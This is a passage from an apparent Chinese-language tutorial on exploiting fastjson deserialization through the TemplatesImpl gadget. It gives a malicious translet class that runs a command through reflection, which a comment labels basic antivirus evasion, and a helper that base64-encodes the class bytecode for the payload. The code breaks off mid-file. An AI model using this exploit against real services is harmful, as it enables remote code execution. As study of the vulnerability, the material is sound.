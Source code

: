 ```java
 */ JSON.parseObject(payload2,Object.class, Feature.SupportNonPublicField);  
 }  
}

```

#### 恶意类：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;  
import com.sun.org.apache.xalan.internal.xsltc.TransletException;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;  
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;  
import java.lang.reflect.Method;  

public class EvalClassforfastjsonTemplateImpl extends AbstractTranslet {  

    @Override  
 public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {  

    }  

    @Override  
 public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {  

    }  
    public EvalClassforfastjsonTemplateImpl() throws Exception{  
//
//      Runtime.getRuntime().exec("calc");  

//反射调用Runtime.getRuntime().exec("calc")执行命令,初级免杀  
 Class cls = Class.forName("java.lang.Runtime");  
 Method method = cls.getMethod("getRuntime",null);  
 Object obs = method.invoke(null,null);  
 Method method1 = obs.getClass().getMethod("exec",String.class);  
 method1.invoke(obs,"calc");  
 }  

    public static void main(String[] args) throws Exception{  
        EvalClassforfastjsonTemplateImpl evalClassforfastjsonTemplate = new EvalClassforfastjsonTemplateImpl();  
 }  
}
```

#### “提取恶意类字节码”类

```java

import com.sun.org.apache.bcel.internal.Repository;  
import java.util.Base64;  

public class EvalClastoBytes {  
    /*  
 根据恶意类获取恶意类字节码的base64编码  
 */ public String Starts(Class<EvalClassforfastjsonTemplateImpl> Evalclass){  
        return Base64.getEncoder().encodeToString(Repository.lookupClass(Evalclass).getBytes());  
 }  

    public static void main(String[] args) throws Exception{  
// 测试代码  
 EvalClastoBytes evalClastoBytes = new EvalClastoBytes();  
 String xx = evalClastoBytes.Starts(EvalClassforfastjsonTemplateImpl.class);  
```